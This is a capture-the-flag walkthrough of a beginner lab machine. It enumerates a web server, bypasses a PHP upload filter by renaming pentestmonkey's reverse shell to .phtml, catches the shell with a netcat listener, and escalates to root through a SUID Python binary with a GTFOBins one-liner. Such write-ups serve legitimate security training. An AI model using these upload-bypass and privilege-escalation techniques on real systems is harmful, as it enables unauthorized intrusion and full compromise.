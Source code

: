 *A ctf for beginners, can you root me?*

**Difficulty:** Easy
## Reconnaissance

I started by scanning the top 1000 ports of the target IP with nmap using the default scripts and version detection. **10.10.80.208** is the IP address of my instance of the target machine.

**Command:** `nmap -sC -sV 10.10.80.208`

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 20:15 EST
Nmap scan report for 10.10.80.208
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan shows two open ports: 
 * Port 22: Running an SSH server (OpenSSH 7.6p1 Ubuntu).
 * Port 80: Hosting a webpage titled "HackIT - Home" on Apache/2.4.29.

The results give us enough to answer the first three questions.
#### Scan the machine, how many ports are open?
This can be found from the nmap scan. Since the expected answer matches the number of open ports we found by scanning the top 1000, there is no need to further scan the full range of ports.
#### What version of Apache is running?
This can be seen in the `http-server-header` field of the scan results of port 80.
#### What service is running on port 22?
Refer to nmap scan to answer this question.
#### Find directories on the web server using the GoBuster tool. 
Now we need to enumerate the http service for any hidden directories using Gobuster. This will brute-force check using a wordlist of popular directory names. 

I used my Kali home lab for this room, so the command uses a relative path, but the wordlist can be found here on the attack box: `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

**Command:** `gobuster dir -u http://10.10.80.208 -w wordlists/directory-list-2.3-medium.txt`

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.80.208
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.80.208/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.80.208/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.80.208/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.80.208/panel/]
/server-status        (Status: 403) [Size: 277]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

#### What is the hidden directory?
Two noteworthy directories are `/uploads` and `/panel`. Visiting `http://10.10.80.208/uploads/` returns a page that appears to be the location where files uploaded to the server are stored. Visiting `http://10.10.80.208/panel/` shows us a file upload form and seems to be the hidden directory we are looking for.

![](images/rootme-panel-directory.png)

I uploaded a `.jpeg` image to confirm that files uploaded through this form can be accessed in the `/uploads` path.

![](images/rootme-jpeg-upload.png)
## Getting a shell
*Find a form to upload and get a reverse shell, and find the flag.*

I used Gobuster to find hints of which type of reverse shell I should upload by adding the following list of extensions for Gobuster to look for on the server: `txt,php,php3,phtml,py,html,php4,php5,js`. 

**Command:** `gobuster dir -u http://10.10.80.208 -w wordlists/directory-list-2.3-medium.txt -x php,php3,php4,php5,phtml,py,js,html,txt`

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.80.208
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,php3,phtml,py,html,php4,php5,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/.phtml               (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 616]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.80.208/uploads/]                                       
/css                  (Status: 301) [Size: 312] [--> http://10.10.80.208/css/]                                           
/js                   (Status: 301) [Size: 311] [--> http://10.10.80.208/js/]                                            
Progress: 14977 / 2205610 (0.68%)^Z
zsh: suspended  gobuster dir -u http://10.10.80.208 -w  -x 
```

Since the scan returned `.php` and `.phtml` directories and files on the server I tried with the "php-reverse-shell" script by pentestmonkey. 

GitHub: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php

AttackBox: `/usr/share/webshells/php/php-reverse-shell.php`

Remember to change the commented lines to your local IP and listening port in the file.

![](images/rootme-rev-shell-local.png)

If you try to upload the reverse shell a message is displayed saying that `.php` are blocked from being uploaded to the server.

![](images/rootme-upload-php-shell.png)
![](images/rootme-php-restriction.png)

We can try to change the file extension to an alternate PHP extension that would still allow the shell to run, but may not have been restricted for uploads. I used some of these in the Gobuster scan: `php,php3,php4,php5,phtml` and we saw that `.phtml` was present on the server. So I tried renaming the reverse shell file to `php-reverse-shell.phtml`.

![](images/rootme-upload-phtml-shell.png)
![](images/rootme-successful-upload.png)

Changing the extension to `.phtml` allowed us to bypass the site file type restrictions and the file uploads successfully! And we can now see the file in the `/uploads` directory.

![](images/rootme-phtml-upload.png)

Before opening this file in our browser we need to start a netcat listener on our local machine to catch the reverse shell connection. This command needs to run with the same port specified in the `php-reverse-shell.phtml` file.

**Command:** `nc -lvnp 5555`

Executing the file through the browser initiates a reverse shell with `www-data` privileges. 
![](images/rootme-www-data-priv.png)

After looking around the server a bit I found the `user.txt` flag in the `var/www` directory.
![](images/rootme-user-flag.png)
## Privilege escalation
*Now that we have a shell, let's escalate our privileges to root.*
#### Search for files with SUID permission, which file is weird?
With the below command we can search for files that are owned by root and have SUID permissions.

**Command:** `find / -user root -perm /4000 2>/dev/null

![](images/rootme-suid-perm.png)

Python showing up in this search is noteworthy because it will let us execute commands as the current user with root privileges.
#### Find a form to escalate your privileges.
GFTOBins provides a way to escape our privileges to root when python has SUID permissions: https://gtfobins.github.io/gtfobins/python/#suid

The command shown in GFTOBins will invoke `/bin/sh` with the `-p` flag, preserving the user ID. Since Python is SUID and owned by root, it gives us a shell with root privilege.

**Command:** `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

![](images/rootme-escalate.png)
#### root.txt
We can now access the root directory and find the root flag!
![](images/rootme-root-flag.png)
